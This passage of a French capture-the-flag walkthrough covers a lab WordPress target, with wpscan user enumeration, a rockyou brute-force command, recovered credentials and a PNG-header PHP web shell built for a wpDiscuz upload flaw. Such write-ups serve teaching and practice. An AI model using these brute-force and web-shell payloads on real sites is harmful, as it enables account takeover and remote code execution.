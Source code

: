 ```plain
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] joxter 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection) 

[+] boe 
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) 
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Comme vous le remarquez ici j'ai fait appel à une option de Docker qui s'appelle *--add-host*. Son rôle est assez explicite vu que cela rajoute une entrée au fichier */etc/hosts* du container.  

Le nom d'hôte *moee* apparaissait dans la page web et *wpscan* avait des difficultés à scanner le site en utilisant seulement l'adresse IP.  

Cette version de Wordpress est normalement touchée par la vulnérabilité *CVE-2022-21661*. On trouve des exemples d'exploitation [ici](https://www.exploit-db.com/exploits/50663) et [là](https://www.m1sn0w.top/2022/01/19/WordPress%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2022-21661%E5%88%86%E6%9E%90%E4%B8%8E%E5%A4%8D%E7%8E%B0%EF%BC%89/) mais aucun code d'exploitation. Si je m'en sens le courage je prendrais peut être le temps d'étudier l'exploitabilité sur ce challenge.  

Là j'ai plutôt orienté mon attention sur le brute-force des différents comptes. J'ai voulu faire l'attaque avec l'option *--password-attack xmlrpc-multicall* qui permet d'essayer un batch de différents mots de passe pour chaque requête mais cela ne m'a amené nul part.  

```plain
$  docker run -v /tools/wordlists/:/data --add-host moee:192.168.56.19 -it --rm wpscanteam/wpscan \
  --url http://moee/ -U joxter,snufkin,boe,user -P /data/rockyou.txt --password-attack xmlrpc-multicall
```

En retirant cette option on passe donc sur un mode de brute force plus lent mais qui est compatible avec la configuration du Wordpress. Comptez tout de même 40 bonnes minutes avant d'obtenir un résultat.  

```plain
[!] Valid Combinations Found:
 | Username: joxter, Password: 1a2b3c4d
```

Une fois connecté via l'interface *wp-admin* je remarque que non, je ne suis pas administrateur et ne peut donc pas obtenir un webshell avec la méthode classique (édition d'un fichier PHP d'un des thèmes installé).  

En regardant les commentaires postés sur le site j'avais toutefois relevé la mention de *wpDiscuz*. Ce plugin Wordpress a [une entrée le concernant chez exploit-db](https://www.exploit-db.com/exploits/49967). Il s'agit d'une faille d'upload et à lire le code d'exploitation il faut faire en sorte que le type mime détecté pour le fichier soit de type image. Pour cela on peut recopier les premiers octets d'un fichier PNG valide et y accoler notre code PHP :  

```bash
$ echo -e '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a\x00\x00\x00\x0d\x49\x48\x44\x52\x00<?php system($_GET["cmd"]); ?>' > shell.php
```
